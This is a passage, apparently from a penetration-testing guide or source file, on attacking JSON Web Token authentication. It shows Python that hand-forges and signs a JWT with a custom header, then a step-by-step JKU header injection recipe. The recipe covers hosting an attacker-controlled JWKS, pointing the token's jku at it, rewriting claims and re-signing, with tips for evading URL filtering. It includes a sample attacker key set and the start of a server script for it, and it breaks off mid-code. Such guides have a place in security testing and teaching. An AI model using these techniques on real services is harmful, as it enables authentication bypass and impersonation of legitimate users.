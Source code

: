        # Create the JWT manually to include the custom header
       header_b64 = base64.urlsafe_b64encode(json.dumps(header).encode()).decode().rstrip('=')
       payload_b64 = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().rstrip('=')
       
       message = f"{header_b64}.{payload_b64}"
       
       # Sign the token with the private key
       signature = jwt.api_jws._jws_signature(message.encode(), pem_private, "RS256")
       signature_b64 = base64.urlsafe_b64encode(signature).decode().rstrip('=')
       
       # Final token
       token = f"{message}.{signature_b64}"
       
       print(token)
       ```

    2. **JKU header injection attack**:
       - Step 1: Generate an RSA key pair
       - Step 2: Host a JWK Set (JWKS) containing your public key on an attacker-controlled server
       - Step 3: Capture a valid JWT
       - Step 4: Modify the header to include a `jku` parameter pointing to your JWKS URL
       - Step 5: Modify payload claims as desired
       - Step 6: Sign the token with your private key
       - Step 7: Send the modified token to the server
       - Example JWKS file format:
       ```json
       {
         "keys": [
           {
             "kty": "RSA",
             "kid": "attacker-key",
             "use": "sig",
             "alg": "RS256",
             "n": "sLhA8lw...",
             "e": "AQAB"
           }
         ]
       }
       ```
       - Testing insight: Try variations like `jku` value with different subdomains of legitimate domains
       - Exploitation insight: Check for path traversal in `jku` URL filtering
       - Example Python script to serve JWKS:
       ```python
       from http.server import HTTPServer, BaseHTTPRequestHandler
       import json
       import ssl
       
       # Your JWKS data
       jwks_data = {
         "keys": [
           {
             "kty": "RSA",
             "kid": "attacker-key",
             "use": "sig",
             "alg": "RS256",
             "n": "sLhA8lw...",
             "e": "AQAB"
           }
         ]
       }